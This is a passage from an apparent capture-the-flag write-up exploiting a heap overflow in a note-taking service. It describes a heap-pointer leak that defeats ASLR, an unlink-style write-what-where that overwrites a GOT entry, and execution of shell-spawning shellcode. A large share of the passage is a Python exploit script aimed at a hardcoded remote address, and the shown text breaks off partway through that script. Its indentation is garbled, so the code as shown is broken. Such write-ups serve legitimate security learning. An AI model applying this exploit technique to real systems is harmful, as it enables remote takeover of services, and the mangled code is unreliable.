 When I know requested the value of note one, the binary would dump out lots of B's, but also append the pointers from the heap! With that sorted, I could find my shellcode on the heap even with ASLR enabled. Next was overwriting a GOT pointer. This was done by overflowing a note and overwriting the pointers to `next_note` and `prev_note`. Then I'd ask the binary to delete a note. It does this by calling `free()`. Because we can control the two pointers, we have a write-what-where primitive. By setting the right values, I could write the address of the shellcode on the heap to `__isoc99_scanf@got.plt`. Initially, I swapped the two memory addresses around, leading to mangled shellcode. After overwriting the GOT pointer of `__isoc99_scanf@got.plt`, which is one of the next functions the binary calls in its main loop, the shellcode on the heap is executed. Because of the way `free()` works, we need to adjust the addresses a bit. 

The [shellcode](http://www.shell-storm.org/shellcode/files/shellcode-547.php) was modified a bit ('/bin/ash' -> '/bin//sh') and stored on the heap. The overflow was used to overwrite the two pointers, and the write-what-where is triggered by sending a 'delete note' command.

The exploit:

```python
import struct
import socket
import time
import re

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('54.163.248.69', 9004))

s.recv(1000)
time.sleep(0.5)

def p(x):
    return struct.pack('<L', x)

    payload  = "1\n1\n1\n1\n"   # create two notes of type one
    payload += "3\n0\n2\n"      # edit note 0 as type two

    s.send(payload)
    time.sleep(0.5)

# overflow note to line up to heap pointer
s.send("A"*212+"BBB\n")

time.sleep(0.5)
s.recv(256)

# leak heap addr
print "[+] Trying to leaking heap address..."
time.sleep(0.5)

s.send("4\n0\n")
time.sleep(0.5)

data = s.recv(1000)

# ugly.. but works :/
m = re.search(r'.*BBB\n(....).*', data)
if m:
        heap = struct.unpack('<L', m.group(1))[0]
            print "[+] Leaked heap address at {}".format(hex(heap))
                # offset for shellcode found empirically via gdb
                    shellcode = heap - 0xd0
                        print "[+] Shellcode at {}".format(hex(shellcode))
                        else:
                                print "[!] Fatal: could not leak heap address"
                                    exit(0)
                                        
```